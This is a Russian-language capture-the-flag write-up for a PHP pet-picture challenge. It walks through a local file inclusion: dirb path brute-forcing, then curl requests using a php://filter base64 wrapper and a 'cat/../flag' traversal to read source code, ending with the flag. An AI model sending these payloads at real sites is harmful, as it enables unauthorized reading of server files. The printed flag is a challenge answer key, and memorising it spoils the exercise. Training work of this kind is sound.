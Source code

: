 # Решение

Можно заметить, что при нажатии на кнопки выбора, в URL подставляется параметр `?view=...`, из вариантов дается cat и dog. 

А что, если я хочу домашнюю лошадь? Подставляем в параметр `horse`, но получаем в ответ лишь 
`🤔 Мы не нашли вам питомца... Поищите собак или кошек`

Дальше у вас есть 2 пути:

### 1a. Экспериментальный (рекомендуется)

Подставляем в параметр `cats` вместо `cat` и получаем ошибку:
```
Warning: include(cats.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 33


Warning: include(): Failed opening 'cats.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 33
```

Становится понятно, что
- `cat` и `dog` это файлы `cat.php` и `dog.php`, которые нам и выводят картинки. Их импортирует `index.php`
- Используется какая-то проверка для определения наличия слов `cat` или `dog` в параметре
- В конец добавляется расширение `.php`

### 1b. Брутфорс пути через dirb/gobuster и подобные

Молодцы, нашли `cat.php`, `dog.php`, `index.php` и `flag.php` за счет 
```bash
dirb http://.../ -X .php
```
Перешли по ссылкам и увидели те же картинки, а значит `index.php` делает инклюд `dog.php` и `cat.php`

### 2. Читаем файлы

Нам нужно прочитать исходный код сайта, чтобы понять, как он работает, и где искать флаг. Для этого воспользуемся
непопулярной особенностью языка PHP: фильтры.

В PHP, при чтении файлов можно указывать ресурсы вроде `http://`, `file://` и прочие. Одним из них является `filter://`,
который проводит какие-либо операции перед выводом данных или сохранения их в переменную. Например:
```php
<?php
    // Содержимое hello.txt: Hello, vrnctf!
    echo file_get_contents('php://filter/string.toupper/resource=hello.txt');
    // Выведет: HELLO, VRNCTF!
?>
```

Среди всех фильтров, есть такой, который нам поможет легко прочитать исходный код, не выполняя его:
```
php://filter/convert.base64-encode/resource=...
```

Применяем его, учитывая проверку наличия `cat` или `dog` в строке, и...
```bash
$ curl 'http://URL/?view=php://filter/convert.base64-encode/resource=cat'
...
PGltZyBjbGFzcz0idy0yLzMiIHNyYz0iaW1nL2NhdHMvPD9waHAgIGVjaG8gcmFuZCgxLDEwKTsgPz4uanBnIiAvPg0KPD9waHANCi8vINCa0L7RgtGLINCyINC70Y7QsdC+0Lwg0YHQu9GD0YfQsNC1INC70YPRh9GI0LUgKNCh0L/QsNGB0LjRgtC1ISDQnNC10L3RjyDQtNC10YDQttCw0YIg0LIg0LfQsNC70L7QttC90LjQutCw0YUsINGPINC+0YHRgtCw0LLQuNC7INCy0LDQvCBmbGFnLnBocCDQv9C+0LrQsCDQstGB0LUg0LXRidC1INC20LjQsiwg0LLRgdGPINC90LDQtNC10LbQtNCwINC90LAg0LLQsNGBKQ0KPz4=    
...
```

Декодируем Base64 строку и получаем код:
```php
<img class="w-2/3" src="img/cats/<?php  echo rand(1,10); ?>.jpg" />
<?php
// Коты в любом случае лучше (Спасите! Меня держат в заложниках, я оставил вам flag.php пока все еще жив, вся надежда на вас)
?>
```

Проводим такую же манипуляцию для чтения файла `flag.php`:
```bash
$ curl 'http://URL/?view=php://filter/convert.base64-encode/resource=cat/../flag'
...
PD9waHANCi8vIHZybmN0ZntGMWx0M3IxbmdfRDBuM193cjBuZ30NCmVjaG8gJ1NvIG5lYXIsIHlldCBzb21laG93IG91dCBvZiByZWFjaCc7DQo/Pg==
...
```

И получаем
```php
<?php
// vrnctf{F1lt3r1ng_D0n3_wr0ng}
echo 'So near, yet somehow out of reach';
?>
```

> Здесь мы применили обход проверки наличия `cat` в строке: `cat/../flag`, в итоге проверка пройдена, а файловая система
> упрощает путь до `./flag`